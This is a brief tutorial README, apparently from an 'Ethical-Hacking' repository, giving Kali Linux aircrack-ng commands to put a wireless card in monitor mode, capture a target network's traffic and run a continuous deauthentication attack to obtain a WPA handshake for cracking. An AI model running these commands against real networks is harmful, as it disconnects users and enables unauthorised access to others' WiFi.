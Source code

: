 
# Password Cracking using aircrack-ng

These are the steps to be followed to Crack WIFI Key Using Kali Linux

Terminal Commands:

    sudo su
     airmon-ng check kill
     airmon-ng start wlan0
     airodump-ng wlan0mon



<img src="https://github.com/Surjith1001/Ethical-Hacking/assets/125909533/4b917857-302b-4641-9302-cde9918ce22b">
<img src="https://github.com/Surjith1001/Ethical-Hacking/assets/125909533/171bdeda-8442-4751-9830-a13bcf55f7c4">

In new terminal:

    sudo su
     cd Desktop
     airodump-ng wlan0mon --bssid (target Bssid) -c (Target Channel Number) -w (hand_shake file name)

After running the above command there will be certain .csv and .cap files created based on the (hand_shake file name) name specified.

<img src="https://user-images.githubusercontent.com/103558082/235842315-384ce725-cbed-4a4f-a321-c7e3e1ecccd4.png">
<img src="https://user-images.githubusercontent.com/103558082/235842319-ddfe5f7d-5351-46de-bf20-f35a106237e4.png">

For Deauthentication attack open new terminal:

    aireplay-ng --deauth 0 -a (Target Bssid) wlan0mon 

Run the Deauthentication attack till you get a WPA Handshake
